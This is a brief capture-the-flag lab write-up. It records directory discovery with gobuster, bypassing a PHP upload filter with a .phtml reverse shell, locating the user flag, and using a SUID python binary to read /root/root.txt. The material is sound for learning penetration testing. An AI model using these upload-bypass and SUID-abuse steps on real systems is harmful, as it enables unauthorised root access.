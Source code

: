 ```bash
export IP=10.10.172.129
```

# Gobuster

There is a /panel on the site

# File upload vilnurability

.php is not permited, so I tried .phtml and reverse shell revers.phtml

# User flag

```bash
find / -name "user.txt"
```
This gave me /var/www/user.txt

# SUID

```bash
find / -perm /4000 2>/dev/null
```

`/usr/bin/python` is interesting

# Pyhton

Just used GTFOBins 

```bash
python -c 'print(open("/root/root.txt").read())'
```